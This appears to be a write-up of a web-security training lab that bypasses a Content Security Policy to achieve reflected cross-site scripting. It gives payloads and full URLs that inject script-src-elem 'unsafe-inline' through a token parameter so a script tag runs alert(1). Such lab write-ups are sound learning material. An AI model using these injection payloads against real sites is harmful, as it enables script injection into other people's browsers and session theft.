```html
search=<script>alert(1)</script>&token=1;script-src-elem 'unsafe-inline'
```

Methodology and explanation:

Using the script tags and a simple payload in the search functionality doesn't work. There is no encoding taking place.

![](/assets/images/XSS/Pasted%20image%2020250728025616.png)

However checking the response in burp shows that a header:

```
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

![](/assets/images/XSS/Pasted%20image%2020250728025845.png)

The `token=` field is interesting. We can try to inject something in it from the URL. 

```
https://LABID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=1
```

We can see that it works.

![](/assets/images/XSS/Pasted%20image%2020250728025921.png)

We can directly manipulate the CSP. We will now use `script-src-elem 'unsafe-inline'` to whitelist inline javascript. That's the javascript ran through \<script\> tags.

Payload in the URL to whitelist inline javascript:

```
token=1;script-src-elem 'unsafe-inline'
```

The final URL that gives us the XSS popup looks like this:

```
https://LABID.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=1;script-src-elem%20%27unsafe-inline%27
```

## Conclusion:

While I was already familiar with XSS, especially the part about session hijacking by stealing cookies, which was something I had done on the CPTS path, majority of the information in these labs was new for me. This includes breaking angularJS sandbox, bypassing CSP, dangling markup attack and using CSRF tokens. I learnt a lot and will try to cover more web vulnerabilities in future.